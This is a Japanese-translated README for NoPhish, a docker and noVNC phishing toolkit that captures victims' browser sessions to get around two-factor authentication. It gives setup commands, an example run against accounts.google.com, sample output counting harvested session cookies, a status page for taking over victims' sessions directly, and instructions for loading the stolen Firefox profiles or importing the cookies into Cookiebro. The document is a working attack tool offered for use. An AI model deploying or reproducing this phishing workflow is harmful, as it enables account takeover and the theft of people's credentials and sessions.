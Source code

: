 # NoPhish
 
別のフィッシングツールキットで、dockerとnoVNCベースのインフラストラクチャを提供します。全体のセットアップは[mrd0x](https://mrd0x.com/bypass-2fa-using-novnc/)と[fhlipzero](https://fhlipzero.io/blogs/6_noVNC/noVNC.html)の最初の記事に基づいています。

セットアップの詳細な説明はここで確認できます - [Another phishing tool](https://powerseb.github.io/posts/Another-phishing-tool/)

## インストール

dockerがインストールされ動作していることを確認してください。

必要なpythonモジュールをインストールします：

```console
pip install lz4
```
セットアップをインストールします（必要なDockerイメージが作成されます）：


```console
setup.sh install
```

## 実行

セットアップは次のパラメータを提供します：

```console
Usage: ./setup.sh -u No. Users -d Domain -t Target
         -u Number of users - please note for every user a container is spawned so don't go crazy
         -d Domain which is used for phishing
         -t Target website which should be displayed for the user
         -e Export format
         -s true / false if ssl is required - if ssl is set crt and key file are needed
         -c Full path to the crt file of the ssl certificate
         -k Full path to the key file of the ssl certificate
         -a Adjust default user agent string
         -z Compress profile to zip - will be ignored if parameter -e is set
         -p Additional URL parameters - if not set generic URL will be generated

```
基本的な実行例は以下の通りです:


```console
./setup.sh -u 4 -t https://accounts.google.com -d hello.local 
```
実行中に、以下の概要は各URLごとに収集されたクッキーまたはセッション情報の数を示します。


```console
...
[-] Starting Loop to collect sessions and cookies from containers
    Every 60 Seconds Cookies and Sessions are exported - Press [CTRL+C] to stop..
For the url http://hello.local/v1/oauth2/authorize?access-token=b6f13b93-1b51-41c4-b8b4-b07932a45bd6 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v2/oauth2/authorize?access-token=fd54dbec-c057-4f46-8657-c0283e5661d9 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v3/oauth2/authorize?access-token=9d606939-b805-4c65-9e98-2624de2cd431 :
-  0  cookies have been collected.
-  5  session cookies have been collected.
For the url http://hello.local/v4/oauth2/authorize?access-token=84b8d725-7e87-439e-8629-53332092b68f :
-  0  cookies have been collected.
-  5  session cookies have been collected.
```

ツールは成功したログインに関係なく、すべてのクッキー／セッション情報をエクスポートすることに注意してください。

さらに、ステータスページ - `http(s)://%DOMAIN%:65534/status.php` - でツールと直接対話することもできます。そこではユーザーの切断やセッションの直接引き継ぎが可能です。

現バージョンのツールでは、各ユーザーごとに2つのコンテナが起動されます。1つはデスクトップ用、もう1つはモバイル用です。ユーザーエージェントに基づいてターゲットは適切なコンテナにリダイレクトされます。モバイルコンテナの出力は先頭に「m」が付けられます（例：mphis1-ffprofile）。

## プロファイルエクスポートの使用法
FireFoxの完全なプロファイルエクスポートを使用している場合、以下のように-profileオプションでfirefoxを呼び出すだけです：

Windowsの場合：
`& 'C:\Program Files\Mozilla Firefox\firefox.exe' -profile <PathToProfile>\phis1-ffprofile\`

Linuxの場合：
`firefox-esr -profile <PathToProfile>/phis1-ffprofile --allow-downgrade`

すべてが復元され、最新のサイトも含まれます。

デフォルトではzipアーカイブを展開する必要があるか、パラメータ `-z` を `false` に設定してください。エクスポート形式 `-e simple` を選択した場合、2つのjsonファイルが生成され、これは[Firefox](https://addons.mozilla.org/de/firefox/addon/cookiebro/)および[Chrome](https://chrome.google.com/webstore/detail/cookiebro/lpmockibcakojclnfmhchibmdpmollgn)で利用可能なCookiebroで使用できます。

## クリーンアップ

実行中にスクリプトは `ctrl` + `c` で終了可能で、実行中のすべてのdockerコンテナは削除されます。セットアップを完全に削除するには `setup.sh cleanup` を実行してください。



---

Tranlated By [Open Ai Tx](https://github.com/OpenAiTx/OpenAiTx) | Last indexed: 2025-07-29

---